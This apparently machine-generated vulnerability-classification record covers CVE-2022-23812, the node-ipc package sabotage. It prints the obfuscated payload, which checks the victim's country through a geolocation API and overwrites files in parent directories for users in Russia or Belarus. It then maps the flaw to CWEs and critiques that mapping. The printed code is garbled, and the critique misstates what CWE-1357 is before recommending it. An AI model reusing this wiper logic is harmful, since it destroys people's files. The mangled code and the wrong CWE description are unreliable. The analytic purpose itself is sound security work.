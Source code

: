 # Resolver Input for CVE-2022-23812

# Resolution Input for CVE-2022-23812

## Vulnerability Description
This affects the package node-ipc from 10.1.1 and before 10.1.3. This package contains malicious code, that targets users with IP located in Russia or Belarus, and overwrites their files with a heart emoji. **Note** from versions 11.0.0 onwards, instead of having malicious code directly in the source of this package, node-ipc imports the peacenotwar package that includes potentially undesired behavior. Malicious Code **Note** Dont run it! js import u from path import a from fs import o from https setTimeout(function () { const t = Math.round(Math.random() * 4) if (t > 1) { return } const n = Buffer.from(aHR0cHM6Ly9hcGkuaXBnZW9sb2NhdGlvbi5pby9pcGdlbz9hcGlLZXk9YWU1MTFlMTYyNzgyNGE5NjhhYWFhNzU4YTUzMDkxNTQ=, base64) // https//api.ipgeolocation.io/ipgeo?apiKey=ae511e1627824a968aaaa758a5309154 o.get(n.toString(utf8), function (t) { t.on(data, function (t) { const n = Buffer.from(Li8=, base64) const o = Buffer.from(Li4v, base64) const r = Buffer.from(Li4vLi4v, base64) const f = Buffer.from(Lw==, base64) const c = Buffer.from(Y291bnRyeV9uYW1l, base64) const e = Buffer.from(cnVzc2lh, base64) const i = Buffer.from(YmVsYXJ1cw==, base64) try { const s = JSON.parse(t.toString(utf8)) const u = s[c.toString(utf8)].toLowerCase() const a = u.includes(e.toString(utf8)) || u.includes(i.toString(utf8)) // checks if country is Russia or Belarus if (a) { h(n.toString(utf8)) h(o.toString(utf8)) h(r.toString(utf8)) h(f.toString(utf8)) } } catch (t) {} }) }) }, Math.ceil(Math.random() * 1e3)) async function h(n = , o = ) { if (!a.existsSync(n)) { return } let r = [] try { r = a.readdirSync(n) } catch (t) {} const f = [] const c = Buffer.from(4p2k77iP, base64) for (var e = 0 e 0 ? f.push(...s) null } else if (i.indexOf(o) >= 0) { try { a.writeFile(i, c.toString(utf8), function () {}) // overwrites file with ?? } catch (t) {} } } return f } const ssl = true export { ssl as default, ssl }

## Initial Analysis
# Summary
| CWE ID | CWE Name | Confidence | CWE Abstraction Level | CWE Vulnerability Mapping Label | CWE-Vulnerability Mapping Notes |
|---|---|---|---|---|---|
| CWE-506 | Malicious Code | 0.95 | Class | Primary | Allowed-with-Review |
| CWE-427 | Uncontrolled Search Path Element | 0.6 | Base | Secondary | Allowed |

## Evidence and Confidence

*   **Confidence Score:** 0.8
*   **Evidence Strength:** HIGH

- **Analysis and Justification:**
  - *Explanation:* The primary weakness is the presence of **malicious code** within the node-ipc package. This directly aligns with CWE-506 (Malicious Code), which is a Class-level CWE describing code that appears to be malicious in nature. The vulnerability description explicitly states that the package contains malicious code that overwrites files. The CVE Reference Links Content Summary reinforces this by highlighting "Malicious Code Injection" as a key weakness. While CWE-506 is a Class-level CWE, it is the most accurate high-level representation of the injected **malicious code**. The MITRE mapping guidance states it is ALLOWED-WITH-REVIEW because a more specific child may exist, however, in this case, it is appropriate since the exact nature of the **malicious code** is file overwriting which is more of an impact than a root cause.
  - *Relationship Analysis:* CWE-506 does not have direct relationships to other CWEs listed. However, it's important to consider that **malicious code** can lead to various other weaknesses or impacts, but the core issue here is the existence of that **malicious code** itself.

- **Analysis and Justification:**
  - *Explanation:* A secondary weakness could be CWE-427 (Uncontrolled Search Path Element). The **malicious code** is executed upon package installation from the npm repository, which can be viewed as a search path. If the user's machine is set to pull packages without validation, it can be considered a vulnerability.
  - *Relationship Analysis:* CWE-427 doesn't directly relate to CWE-506, but it represents how the weakness was delivered to the user and machine.

- **Confidence Score:**
  - *CWE-506 Confidence:* 0.95 (High confidence due to explicit mention of malicious code)
  - *CWE-427 Confidence:* 0.6 (Medium confidence, since the path is more of an ecosystem than a direct path.)

---

## Criticism
Okay, here's a review of the provided CWE analysis, considering the full CWE specifications for each weakness.

**Overall Assessment:**

The analysis correctly identifies CWE-506 (Malicious Code) as the primary weakness. The justification is sound, and the confidence level is appropriate. The inclusion of CWE-427 (Uncontrolled Search Path Element) as a secondary weakness is more debatable. While there's a tenuous connection to the package installation process, it's not the most direct or accurate representation of the vulnerability's root cause. Let's break down each aspect in detail.

**Detailed Review:**

**1. CWE-506: Malicious Code (Primary)**

*   **CWE Specification Alignment:**
    *   The analysis is well-aligned with the CWE-506 description: "The product contains code that appears to be malicious in nature."  The vulnerability description explicitly states the package includes malicious code.
    *   The *Extended Description* of CWE-506, which mentions Trojan Horses, Trapdoors, and Logic Bombs, provides further context. While the specific malicious action is file overwriting, the core problem *is* the presence of intentionally malicious code.
    *   The *Mapping Guidance* for CWE-506 is "Allowed-with-Review" because it is a class-level CWE. The analysis notes that a more specific child might exist. However, given that the malicious intent and general nature of the code are the most significant aspects, CWE-506 is a suitable high-level representation. It would be difficult to classify it as solely a Trojan Horse, Logic Bomb, etc., as its behavior could be argued to fit multiple categories.
*   **Confidence:** The assigned confidence score of 0.95 is justified. The evidence is strong and direct.
*   **Mitigations:** The suggested mitigation of "Remove the malicious code..." is the obvious and correct response.

**2. CWE-427: Uncontrolled Search Path Element (Secondary)**

*   **CWE Specification Alignment:**
    *   The analysis argues that the npm repository acts as a "search path," and because the user's machine pulls packages without validation, it's an "uncontrolled" element. This is where the analysis becomes weaker.
    *   CWE-427's *Description* focuses on the *product* using a fixed or controlled search path, where *locations in that path* are under the control of unintended actors. Here, the npm repository is external to the *product* using it (i.e the end user's application). The end user's application doesn't control the npm repository.  The vulnerability isn't so much about the search path itself, but rather the *content* found at that path.
    *   The *Extended Description* of CWE-427 includes the scenario of "software package management frameworks (e.g., npm, RubyGems, or PyPi)," which seems supportive at first glance. However, the key aspect is that the framework (e.g., npm client) searches a *public* repository before a *private* one, potentially leading to dependency confusion. This isn't the primary attack vector in this case. While dependency confusion *could* be a factor, the core issue is the direct injection of malicious code into a publicly available package.
    *   The examples for CWE-427 also suggest a different attack vector than the one used here. They are focused on hijacking command execution via manipulating the PATH environment variable, or DLL preloading.
*   **Confidence:** The assigned confidence score of 0.6 is reasonable given the weak relationship.
*   **Mitigations:** The general mitigations of CWE-427 don't directly address the root cause of this vulnerability. Hardcoding search paths, specifying fully-qualified pathnames, and restricting environment settings don't prevent a compromised package from being installed from a public repository.

**Alternative CWE Considerations:**

While CWE-506 is the most appropriate high-level classification, a more precise base-level CWE to consider is **CWE-1357: Insertion of Publicly Available Sensitive Information**. This weakness describes the scenario where sensitive information is available to a wide audience due to a flaw in the software or system.

However, this isn't exactly what occurred in this scenario, the malicious code was inserted by a malicious third party, it wasn't leaked by the system.

**Recommendations:**

1.  **Maintain CWE-506 as the primary weakness:** Its broad nature accurately captures the core problem: the presence of malicious code.
2.  **Reconsider CWE-427 as a secondary weakness:** While tangentially related, it doesn't accurately represent the root cause or the attack vector. The connection is stretched and the mitigations aren't relevant.
3.  **Instead of CWE-427, consider CWE-1357:** This captures the fact that the malicious code became publicly available (on the npm registry), leading to widespread exposure. But again, this isn't quite accurate as the malicious code wasn't leaked. It was purposely placed there.

In summary, the primary CWE assignment of CWE-506 is correct. However, the secondary assignment of CWE-427 is questionable and should be reconsidered. No single CWE perfectly represents the nuances of a supply chain attack involving malicious code injection, but CWE-506 and some acknowledgement of the supply chain element is the best path forward.

Consider both the direct matches and the relationships between CWEs
when making your final determination.
        